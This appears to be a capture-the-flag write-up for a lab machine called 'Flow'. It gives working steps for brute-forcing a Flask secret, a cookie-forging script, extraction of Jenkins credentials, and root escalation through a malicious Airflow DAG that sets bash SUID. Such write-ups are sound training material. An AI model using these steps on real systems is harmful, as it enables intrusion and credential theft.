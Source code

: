 # Flow
```
# nmap -sCV -p- flow.htb
Nmap scan report for flow.htb (10.129.172.173)
Host is up (0.082s latency).
Scanned at 2021-07-24 02:37:27 CEST for 341s
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn/20.0.4
| http-title: Airflow
|_Requested resource was http://flow.htb:8000/login/?next=http%3A%2F%2Fflow.htb%3A8000%2Fhome
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### User flag 

On port 8080 the web server is hosting a Jenkins. Unfortunately default credentials doesn't work.

On port an Airflow application is also prompting us for credentials.

![Airflow login](../img/login_airflow.png "Airflow login")

When trying to connect on this interface we noticed the web server assigned us a flask cookie. We tried to bruteforce the cookie secret key using [flask-unsign](https://pypi.org/project/flask-unsign/) and it was successful:

```
$ flask-unsign -c '.eJx9kEFPwzAMhf9KlXO1toOOphLijAQSJy5oqtzUSSO8pEo8yjTx3zEgcYKdEr9879nOWQ2WIM-YVf9yVgXLoVZIwQenSnUf3oD8VFB0PmyKJ0LIWHA6FeBAFLX_2JcSkTDPqrdAGaVcMB0gYJAwTkdRTE524PiKQfXKbnUzoumaG41oNWzbdjd2ur3qtFwb3TTmGo3ZSfsJ3JAZ-JgH64kxiR2I5IWiAUIpJbJUCzgcZp85ptPXAjPz0leVpbhuZh77rq7rSnaoSJjq7ht_iO4xTkjPHtfbWkL-NL2bePhx_UcsMdJlwsQQ0LCP4TL3O6D86id-9oYb.YP87aA.XhCS-DqQkiEOiZKSHxJVb0RTYvY' -w all.txt -u
[*] Session decodes to: {'_flashes': [('warning', 'Invalid login. Please try again.')], '_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'dag_status_filter': 'all', 'locale': 'en', 'page_history': ['http://flow.htb:8000/log/list/?page_LogModelView=0', 'http://flow.htb:8000/xcom/list/', 'http://flow.htb:8000/pool/list/', 'http://flow.htb:8000/connection/list/', 'http://flow.htb:8000/log/list/']}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (9600): (H`_key=2499d4a4f8ad842fb5ed41
[+] Found secret key after 36096 attempt
'temporary_key'
```
When analyzing the front page source code we can see the Flask-AppBuilder is used:
```
<!-- Adapted from: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/flask_appbuilder/templates/appbuilder/flash.html -->
<link rel="stylesheet" type="text/css" href="/static/css/flash.css">

<!-- Split messages into two arrays: one for regular alerts, another for DAG import errors -->
```
By digging in this repository we were looking for the user session management. requirements.txt file shows the flask-login library: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/requirements.txt#L17.

By overlooking at flask-login cookie's attributes we saw the field `user_id` was used to identify users: https://github.com/maxcountryman/flask-login/blob/0.4.1/flask_login/login_manager.py#L311.

We forged our own flask cookie with the following python code:

```python
#!/usr/bin/env python3

from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask_unsign.helpers import LegacyTimestampSigner
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

def sign(value: dict, secret: str, legacy: bool = False, salt: str = "cookie-session"):
    return get_serializer(secret, legacy, salt).dumps(value)

def get_serializer(secret: str, legacy: bool, salt: str):
    if legacy:
        signer = LegacyTimestampSigner
    else:
        signer = TimestampSigner

    return URLSafeTimedSerializer(
        secret_key=secret,
        salt=salt,
        serializer=TaggedJSONSerializer(),
        signer=signer,
        signer_kwargs={
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1})


payload = {'_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'locale': 'en','user_id':"1"}
cookie = sign(payload, "temporary_key")
print(cookie)
```

```bash
$ ./signer2.py 
.eJwNi8EOwiAQBf9lz1y2SmX5GULXR2pEahZ6avx3uc1MMhelYug7xZJrh6P0hX1yQxsUh52zaLeSxvFGo0hlEd6ggR8CFMmL9-sWxN-CTGRh1jtUV3JUD80V85mjo7PD0us5len3B_hYJJA.YP88ww.mqaoAXLqq4po1q0p66xPG8NFg8I
```

By changing the cookie in our browser, we sucessfully obtain an admin session. While crawling the application we were looking for juicy information such as password. The Jenkins password was indeed in the application. It was in the Admin/Variables menu. Cleartext passwords can be obtained by exporting them:


![Getting credentials](../img/get_password.png "Getting credentials")

The exported file contains the credentials:
```
{
    "JENKINS_BUILD_PASSWORD": "sVLfGQzHyW8WM22"
}
```

By checking the logs in Browse/Logs menu in Airflow, we can obtained a list of user (amelia or root).

The credentials root:sVLfGQzHyW8WM22 were working on the Jenkins login portal port 8080.

Running a groovy script on Jenkins, we found amelia credentials.

![Amelia password](../img/amelia_password.png "Amelia password")

Another groovy script can retrieve amelia credentials. These credentials can be used on SSH to get user flag.
```
println(hudson.util.Secret.decrypt("{AQAAABAAAAAg+HUDOG0OqnfR1ExuHUvv0Qb/0QDNMPmncSVOHYZFSJHSNn/RFDjy9MU6JdEoxgy0}"))
v]C:ZZ6*pmv6jgBJ

$ ssh amelia@flow.htb
amelia@flow:~$ cat user.txt
HTB{w4tch_0ut_th0s3_0ld_v3rs10ns}
```

### Root flag

The `note.txt` in the user folder suggest to drop dags files in `/opt/dags` and they will be proceed. We also can run `sudo airflow` which will process the dags files. We noticed we could hijack a python library, here `os`.
We just need to submit a dag file with a valid syntax, this can be found on the following [tutorial](https://www.invivoo.com/en/creating-your-first-apache-airflow-dag/).


```
amelia@flow:/opt/dags$ cat payload.py
import os
os.system("chmod +s /bin/bash")

from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from airflow.utils.dates import days_ago


default_args = {
    'owner': 'airflow',
    'start_date': days_ago(5),
    'email': ['airflow@my_first_dag.com'],
    'email_on_failure': False,
    'email_on_retry': False,
    'retries': 1,
    'retry_delay': timedelta(minutes=5),
}

my_first_dag = DAG(
    'first_dag',
    default_args=default_args,
    description='Our first DAG',
    schedule_interval=timedelta(days=1),
)


amelia@flow:/opt/dags$ sudo airflow backfill payload -s 2020-03-01 -e 2022-03-05
[2021-07-26 23:17:03,177] {__init__.py:50} INFO - Using executor SequentialExecutor
[2021-07-26 23:17:03,177] {dagbag.py:417} INFO - Filling up the DagBag from /root/airflow/dags
[2021-07-26 23:17:03,184] {dagbag.py:259} ERROR - Failed to import: /root/airflow/dags/payload.py
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/airflow/models/dagbag.py", line 256, in process_file
    m = imp.load_source(mod_name, filepath)
  File "/usr/lib/python3.8/imp.py", line 171, in load_source
    module = _load(spec)
  File "<frozen importlib._bootstrap>", line 702, in _load
  File "<frozen importlib._bootstrap>", line 671, in _load_unlocked
  File "<frozen importlib._bootstrap_external>", line 783, in exec_module
  File "<frozen importlib._bootstrap>", line 219, in _call_with_frames_removed
  File "/root/airflow/dags/payload.py", line 16, in <module>
    'retry_delay': timedelta(minutes=5),
NameError: name 'timedelta' is not defined
Traceback (most recent call last):
  File "/usr/local/bin/airflow", line 37, in <module>
    args.func(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/utils/cli.py", line 80, in wrapper
    return f(*args, **kwargs)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 188, in backfill
    dag = dag or get_dag(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 163, in get_dag
    raise AirflowException(
airflow.exceptions.AirflowException: dag_id could not be found: payload. Either the dag did not exist or it failed to parse.

amelia@flow:/opt/dags$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
amelia@flow:/opt/dags$ bash -p
bash-5.0# cat /root/root.txt
HTB{d0nt_run_4rb1tr4ry_d4gs}
```
